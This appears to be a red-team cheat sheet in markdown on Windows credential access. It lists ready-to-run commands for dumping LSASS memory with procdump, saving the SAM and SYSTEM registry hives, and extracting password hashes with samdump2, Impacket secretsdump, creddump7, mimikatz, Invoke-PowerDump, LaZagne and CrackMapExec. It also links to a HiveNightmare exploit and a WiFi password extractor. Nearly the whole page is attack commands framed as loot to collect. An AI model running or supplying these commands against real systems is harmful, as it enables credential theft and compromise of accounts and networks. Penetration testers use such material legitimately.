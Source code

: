 # Credential Access

The adversary is trying to steal account names and passwords.

### Dump LSASS

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

check https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz for more techniques

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`

**Extract hashes from SAM and SYSTEM**
- Impacket
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 -m pip install .
cd examples
```
  `./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL`

- creddump7
	```
	git clone https://github.com/Tib3rius/creddump7
	pip3 install pycrypto   
	python3 creddump7/pwdump.py SYSTEM SAM
	```
	

- [ ] Mimikatz
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
  
  ```
  privilege::debug
  token::elevate
  lsadump::sam
  ```
  
- [ ] Pypykatz
  - Project https://github.com/skelsec/pypykatz
  - Demo https://www.youtube.com/watch?v=X4YCJYQ-zVg
 
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip

- [ ] Powershell Script
  - https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
  - `powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"`

- [ ] lazagne.exe
  - project https://github.com/AlessandroZ/LaZagne
  - binaries https://github.com/AlessandroZ/LaZagne/releases/
  - `lazagne.exe all`

- [ ] CrackMapExec 
  - `crackmapexec smb 192.168.1.105 -u 'AdministratorUsername' -p 'password1234' --sam`
  
  
### WiFi Credentials

   - [ ] Windows WiFi Password Extractor
     - https://github.com/hmaverickadams/Windows-WiFi-Extractor
     
### References
- https://www.hackingarticles.in/credential-dumping-sam/
